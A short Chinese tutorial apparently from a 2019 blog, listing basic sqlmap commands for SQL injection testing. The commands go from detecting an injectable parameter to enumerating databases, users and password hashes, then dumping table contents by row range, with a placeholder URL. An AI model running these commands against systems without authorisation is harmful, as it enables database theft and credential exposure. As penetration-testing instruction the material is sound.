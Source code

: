 ﻿---
title: Sqlmap-1 基础使用操作
date: 2019-4-19 21:44:00
categories: Sqlmap的使用
---

sqlmap使用教程

**1.检测注入点是否可用**
sqlmap.py -u "url"
-u 输入指定注入点url

**2.若需要用户输入[y/n]，系默认需添加一个参数**
sqlmap.py -u "url" --batch
注入结果显示
(1)注入参数id为GET注入，注入类型有四种分别为boolean-based、error-based、time-based blind、union query
(2)web服务器系统为linux-centOS 7-1708
(3)web应用技术为 apache 2.4.6 php 5.4.16
(4)数据库类型为mysql 5

**3.爆库**
一条命令即可爆出该sqlserver所有数据库名称
sqlmap.py -u "url" --dbs

**4.web使用当前的数据库**
sqlmap.py -u "url" --current-db

**5.web数据库使用账户**
sqlmap.py -u "url" --current-user

**6.列出mysql所有用户**
sqlmap.py -u "url" --users

**7.数据库账户与密码**
sqlmap.py -u "url" --password

**8.列出数据库中的表**
sqlmap.py -u "url" -D 数据库名称 --tables
参数：
-D：指定数据库名称
--tables：列出表

**9.列出表中的字段**
sqlmap.py -u "url" -D 数据库名称 -T 表名称 --columns
参数：
-D：指定数据库名称
-T：指定要列出字段的表
--columns：指定列出字段

**10.爆字段内容**
sqlmap.py -u "url" -D 数据库名称 -T 表名称 -C 字段名
参数：
-C：指定要爆的字段
--dump：将结果盗出

**11.如果字段内容太多，需要花费很多时间。可以指定导出特定范围的字段内容，命令如下：**
sqlmap.py -u "url" -D 数据库名称 -T 表名称 -C 字段名 --start 1 --stop 10 --dump
参数：
--start：指定开始的行
--stop：指定结束的行



